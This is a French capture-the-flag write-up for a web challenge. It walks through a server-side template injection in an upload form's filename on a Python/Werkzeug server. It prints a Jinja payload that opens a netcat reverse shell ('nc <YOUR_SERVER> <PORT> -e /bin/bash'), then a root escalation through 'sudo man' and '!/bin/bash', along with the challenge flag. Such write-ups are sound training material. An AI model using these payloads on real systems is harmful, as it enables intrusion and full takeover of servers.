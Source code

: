 # The Last One

### Catégorie

Web

### Description

Un de vos camarades à mis en place une plateforme d'upload pour vérifier vos devoirs..
Bizarrement, ses notes ont largement augmentées depuis qu'il l'a mis en place..

Prenez la main sur son serveur en lisant le fichier /flag.txt !

Accès au challenge

Rappel : Le bruteforce n'est pas autorisé

Format : Hero{flag}

### Auteur 

Worty

### Solution

Quand on arrive sur la page, on nous propose juste d'upload un fichier rien de plus.<br/>
Le serveur nous répond simple : "Your file test.docx will be review soon, thanks!"

Si l'on intercepte les headers, on remarque ceci lorsque le serveur répond : "Server: Werkzeug/1.0.1 Python/3.5.2"<br/>
Le serveur étant en python, on pense directement à une faille de type Server Side Template Injection, mais ou??<br/>
La réponse est simple, dans le nom du fichier !

Interceptons cette fois-ci la requête avec burp suite pour directement modifier le nom du fichier en {{7*7}}<br/>
Le serveur nous répond : "Your file 49 will be review soon, thanks!", il est donc vulnérable.

Je vous épargne la recherche de la classe subprocess.Popen qui est longue et fastidieuse, au final, la payload pour exécuter du code est :<br/>
{{().__class__.__mro__[1].__subclasses__()[94]('nc <YOUR_SERVER> <PORT> -e /bin/bash',shell=True,stdout=-1).communicate()}}
Super, allons lire le fichier /flag.txt! Et là, c'est le drame, le fichier est owned par root et nous n'avons pas les droits de lecture..

Executons la commande "sudo -l" pour voir quelle potentielle commande nous aurons le droit d'exécuter sans mot de passe, bim, la commande man peut etre lancée en tant que root sans mot de passe!<br/>
Payload : sudo -u root man man

Une fois dans le man, on entre simplement !/bin/bash, et nous obtenons un shell root!

### Flag

Hero{th4nk_y0u_f0r_play1ng_HeroCTF_!!}